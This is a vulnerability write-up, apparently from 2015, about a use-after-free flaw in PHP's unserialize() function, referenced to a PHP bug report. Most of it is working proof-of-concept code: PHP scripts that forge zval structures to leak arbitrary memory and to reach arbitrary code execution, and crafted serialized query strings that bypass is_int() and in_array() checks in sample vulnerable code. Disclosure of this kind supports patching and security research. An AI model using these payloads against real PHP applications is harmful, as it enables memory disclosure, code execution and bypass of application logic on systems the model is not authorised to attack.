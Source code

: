 #About PHP's unserialize() Function Use-After-Free Vulnerability
> Taoguang Chen <github.com/chtg> - 2015.1.24
 
i. Leak Arbitrary Memory
========

### Overwrite an fake string ZVAL POC:
``` php
<?php

fake_zval();

$data = 'a:2:{i:0;O:8:"stdClass":2:{s:3:"aaa";a:2:{i:0;s:1:"A";i:1;i:2;}s:3:"aaa";i:3;}i:1;O:8:"stdClass":6:{i:2;i:4;i:3;i:5;i:4;s:2:"AA";i:5;s:'.strlen($zval).':"'.$zval.'";i:6;s:'.strlen($zval).':"'.$zval.'";s:3:"ccc";R:4;}}';

$x = unserialize($data);
$y = serialize($x);
var_dump($y);

function fake_zval()
{
	global $zval;

	$addr = 0x100000000;

	$zval = ptr2str($addr);           
	$zval .= ptr2str(0x400);
	$zval .= "\x00\x00\x00\x00";
	$zval .= "\x06";      
	$zval .= "\x00";
	$zval .= ptr2str(0);
	$zval .= ptr2str(0);
	$zval .= ptr2str(0);
}

function ptr2str($ptr)
{
	$out = "";
	for ($i=0; $i<8; $i++) {
		$out .= chr($ptr & 0xff);
		$ptr >>= 8;
	}
	return $out;
}
```
	
ii. Execute Arbitrary Code
========
 
### Overwrite an fake object ZVAL PoC:
``` php
<?php

fake_zval();

$data = 'a:7:{i:0;O:8:"stdClass":2:{s:3:"aaa";a:2:{i:0;s:1:"A";i:1;i:2;}s:3:"aaa";i:3;}i:2;i:4;i:3;i:5;i:4;s:2:"AA";i:5;s:'.strlen($zval).':"'.$zval.'";i:6;s:'.strlen($zval).':"'.$zval.'";s:3:"ccc";O:8:"stdClass":2:{s:3:"ddd";a:2:{i:0;R:4;i:1;i:2;}s:3:"ddd";i:3;}}';

$x = unserialize($data);
var_dump($x);

function fake_zval()
{
	global $zval;

	$addr = 0x41414141;

	$zval = ptr2str($addr);
	$zval .= ptr2str(0x11223344);
	$zval .= "\x00\x00\x00\x00";
	$zval .= "\x05";      
	$zval .= "\x00";
	$zval .= ptr2str(0);
	$zval .= ptr2str(0);
	$zval .= ptr2str(0);
}

function ptr2str($ptr)
{
	$out = "";
	for ($i=0; $i<8; $i++) {
		$out .= chr($ptr & 0xff);
		$ptr >>= 8;
	}
	return $out;
}
```

iii. Bypass Syntax Logical
========

### Code sample 1:
``` php
	$data = unserialize($_GET['data']);
 
	if (is_int($data['ccc'])) {
		$ddd = 'ddd';
		$eee = 'eee';
		$fff = 'fff'.$_GET['fff'];
		$ggg = 'ggg';
		var_dump($data['ccc']);
	} else {
		echo 'fuck';
	}
```
 
Overwrite $data['ccc'] and bypass in_int()
 
PoC:
``` php
	foo.php?data=a:3:{i:0;O:8:"stdClass":2:{s:3:"aaa";a:2:{i:0;i:1;i:1;i:2;}s:3:"aaa";i:3;}i:2;i:4;s:3:"ccc";R:5;}&fff=ryat
	// Result: string(7) "fffryat"
```

Code sample 2:
``` php
	<?php
 
	$data = unserialize($_GET['data']);
 
	if (is_string($data['ccc']) && in_array($data['ccc'], array('ccc'))) {
		$ddd = 'ddd'.$_GET['ddd'];
		$eee = 'eee';
		var_dump($data['ccc']);
	} else {
		echo 'fuck';
	}
```
	
Overwrite $data['ccc'] and bypass in_array()
 
PoC:
 
	foo.php?data=a:4:{i:0;O:8:"stdClass":2:{s:3:"aaa";a:2:{i:0;s:1:"A";i:1;i:2;}s:3:"aaa";i:3;}i:2;i:4;i:3;i:5;s:3:"ccc";R:4;}&ddd=ryat
	// Result: string(7) "dddryat"
 
iv. Others?
========
 
v. Reference
========
https://bugs.php.net/bug.php?id=68594
 
EOF
========
